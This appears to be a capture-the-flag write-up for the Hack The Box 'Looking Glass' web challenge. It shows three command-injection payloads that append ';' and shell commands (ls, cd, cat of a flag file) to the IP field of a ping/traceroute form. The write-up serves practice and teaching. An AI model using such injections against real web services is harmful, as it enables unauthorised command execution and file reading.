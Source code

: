 # Looking Glass
Solution to Hack The Box Challenge - Looking Glass

### Problem

We've built the most secure networking tool in the market, come and check it out!

### Solution

You visit a web that offers run the command ping or traceroute indicating an IP and returns the console log.

If there is no sanitization you can inject console commands using ```;``` as separator.

I used the following payloads on the form

```
46.101.54.225 -c; ls
46.101.54.225 -c; cd ../; ls
46.101.54.225 -c; cd ../; cat flag_5Fdxy
```

And you get the flag

